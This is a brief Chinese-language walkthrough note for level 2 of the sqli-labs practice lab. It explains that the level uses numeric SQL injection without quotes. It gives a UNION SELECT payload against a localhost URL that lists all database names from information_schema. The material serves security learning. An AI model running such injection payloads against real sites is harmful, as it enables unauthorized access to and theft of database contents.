 和less1一样只是这个属于数值型注入，不需要加单引号“ ‘ ”

爆库语句：

127.0.0.1/sql-labs/Less-2/?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/68D119FB32154BC39322F61D9588D0B5clipboard.png)

